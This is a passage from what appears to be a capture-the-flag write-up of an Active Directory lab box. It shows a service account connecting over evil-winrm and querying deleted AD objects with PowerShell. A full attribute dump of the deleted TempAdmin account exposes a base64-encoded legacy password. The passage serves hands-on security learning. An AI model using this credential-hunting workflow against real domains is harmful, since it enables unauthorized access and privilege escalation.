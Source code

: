 ``` {.csh language="csh" frame="single" breaklines="true" keepspaces="true" basicstyle="\\footnotesize\\ttfamily" showstringspaces="false"}
8/12/2018 12:22	[MAIN_THREAD]	Validating settings...
8/12/2018 12:22	[MAIN_THREAD]	Running as user CASCADE\ArkSvc
8/12/2018 12:22	[MAIN_THREAD]	Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Exiting with error code 0
```

Apparently, the account has indeed be deleted in the meantime. The file
also confirms that *AD Recycle Bin* is enabled on the box. Maybe they're
is still some information available. As *ArkSvc*, we connect to the box
via `evil-winrm` and query the *Active Directory* for information on the
deleted user *TempAdmin* with

`Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects`



The `Common Name (CN)` of the account is now suffixed by `\0ADEL`,
marking it as a deleted user. The idea here is to restore the user
object in order to be able to query its attributes - maybe we'll be able
to dig up something interesting.[^11] We restore the user object with :

`Get-ADObject -Filter {displayName -eq "TempAdmin\0ADEL"} -IncludeDeletedObjects | Restore-ADObject`



Now, we look for interesting attributes to the restored object with :

`get-adobject -SearchBase "DC=cascade,DC=local" -filter{SamAccountName -eq "TempAdmin"} -IncludeDeletedObjects -properties * | Select-Object *`

```
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
```

[^1]: Simply hit `enter` when prompted for a password.
[^2]: Available in its online version at
[^3]: Output slightly modified for readability.
[^4]: For further information on *VNC* passwords and how to retrieve and
[^5]: <https://securityxploded.com/vnc-password-recovery.php>, last
[^6]: Output slightly modified for readability.
[^7]: I used a program that ships with *Kali*, `DB Browser for SQLite`,
[^8]: Personally, I like *Jetbrain*'s *dotPeek* a lot :
[^9]: Of course, the *Chef* isn't the only tool up to the task - you
[^10]: At this point, I wasn't too sure where the journey would lead me
[^11]: For more information on restoring deleted *Active Directory*